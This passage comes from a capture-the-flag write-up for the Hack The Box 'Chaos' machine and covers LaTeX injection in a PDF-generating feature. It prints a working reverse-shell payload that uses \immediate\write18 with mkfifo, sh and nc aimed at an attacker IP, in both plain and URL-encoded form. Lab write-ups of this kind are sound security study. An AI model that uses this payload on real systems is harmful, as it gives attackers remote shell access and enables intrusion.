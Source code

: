 ![](/images/hackthebox/chaos/33.png)
#### `test3` as well. `LaTeX` can be injectable and can cause some vulnerabilities if there wasn't a good filter. I tried some payloads from [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) and most of them got filtered. But this injection payload worked : `\immediate\write18{command}`. So I got a reverse shell like this :
![](/images/hackthebox/chaos/34.png)
#### Payload : `\immediate\write18{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f}` 
#### Url Encoded : `\immediate\write18{rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.xx.xx+1337+>/tmp/f}`